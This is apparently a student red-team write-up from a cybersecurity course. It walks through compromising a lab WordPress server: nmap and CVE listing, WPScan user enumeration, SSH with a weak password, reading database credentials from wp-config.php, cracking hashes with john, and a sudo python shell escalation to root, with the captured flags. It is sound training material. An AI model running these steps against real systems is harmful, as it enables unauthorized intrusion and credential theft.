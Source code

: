 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X


The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)

<br>

### Critical Vulnerabilities:
The following vulnerabilities were identified on Target 1:
 
 - Network Mapping
   - nmap scanned for open ports on a designated IP address
   - Attacker can devise an attack based on open ports
 
 - Unsalted Password Hash
   - wpscan is used to gain username information 
   - Attackers gain access the web server

- Weak User Password
  - A user account had a weak password, which was found via guessing
  - Attacker is able to ssh into web server with weak username and password

- Access MySQL Database
  - Attackers discover a file containing MySQL database credentials
  - Attacker can gain access to MySQL database with acquired credentials 

- MySQL Password Extraction
  - Password hashes for user accounts were found by browsing through MySQL tables
  - Attacker can extract password hashes and crack them via john the ripper

- Misconfigured User Privilege Escalation
  - Steven’s account has sudo privileges for python
  - Steven’s Python privileges used to escalate to root   
 
### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell
  - Command used: wpscan --url http://192.168.1.110/wordpress -eu

![Screenshot](wpscan screenshot)

- Visited the IP address of the target: 192.168.1.110 over HTTP port 80

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/192.168.1.110%20browswer.png)

<br>

- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
   - **Exploit Used**
   
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag%201.png)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
     - Command: ssh michael@192.168.1.110 
     - The username and password for Michael's account is identical: michael
     - Command: locate *flag*
     - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
   - **Exploit Used**
     - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
     - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

   - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    
     - DB_NAME: wordpress
     - DB_USER: root
     - DB_PASSWORD: R@v3nSecurity
     - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:

     - Flag 3 found in wp_posts.
     - Password hashes found in wp_users.
     - Command: show databases;
     - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
<br>

   - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
<br>

   - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

<br>

   - Screenshot of Wordpress user password hashes:
    
     - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)

<br>

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
     - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
     - Cracking the hashed password using john.
     - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
     - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

<br>

   - Secure a user shell as the user whose password you cracked.
    
     - Command: ssh steven@192.168.1.110
     - Password: pink84
     - Escalating to root:
     - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
   
   - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)

<br>

   - Search for the root directory for Flag 4.
   
     - Command: cd /root/
     - Command: ls
     - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)

